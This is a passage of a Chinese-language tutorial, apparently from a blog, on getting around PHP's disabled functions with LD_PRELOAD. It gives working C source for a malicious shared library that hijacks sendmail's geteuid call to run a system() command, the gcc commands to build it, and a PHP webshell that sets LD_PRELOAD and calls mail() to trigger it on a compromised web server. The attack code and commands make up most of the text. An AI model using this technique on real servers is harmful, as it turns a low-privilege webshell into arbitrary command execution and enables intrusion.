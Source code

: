 使用命令`readelf -Ws /usr/sbin/sendmail`可以看到sendmail调用了哪些库函数,这里选择`geteuid`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102315.png)

  

![]()

创建一个`test.c`文件,并定义一个`geteuid`函数,目的是劫持该函数。

    
    
    #include <stdlib.h>  
    #include <stdio.h>  
    #include <string.h>  
    void payload() {  
        system("whoami > /var/tmp/sd.txt");  
    }  
    int geteuid()  
    {  
        if (getenv("LD_PRELOAD") == NULL) { return 0; }  
        unsetenv("LD_PRELOAD");  
        payload();  
    }  
    

使用gcc编译为.so文件

    
    
    gcc -c -fPIC test.c -o test  
    gcc -shared test -o test.so  
    

这里有个坑:不要在windows上编译,编译出来是MZ头,不是ELF。

然后再上传test.so到指定目录下。

最后创建`shell.php`文件,上传到网站目录下,这里.so文件路径要写对。

    
    
    <?php  
    putenv("LD_PRELOAD=/var/www/test.so");  
    mail("","","","","");  
    ?>  
    

再理一下整个过程:当我们访问shell.php文件的时候,先会将`LD_PRELOAD`路径设置为恶意的.so文件，然后触发mail()函数,mail函数会调用sendmail函数,sendmail函数会调用库函数geteuid,而库函数geteuid已经被优先加载,这时执行geteuid就是执行的我们自己定义的函数,并执行payload(),也就是代码中的`whoami`命令写入到sd.txt中。

由于拿到的webshell很有可能是`www-data`这种普通权限。整个过程要注意权限问题,要可写的目录下。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102316.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102317.png)

web访问页面没有文件写出,可以看看定义的目录是否有权限。
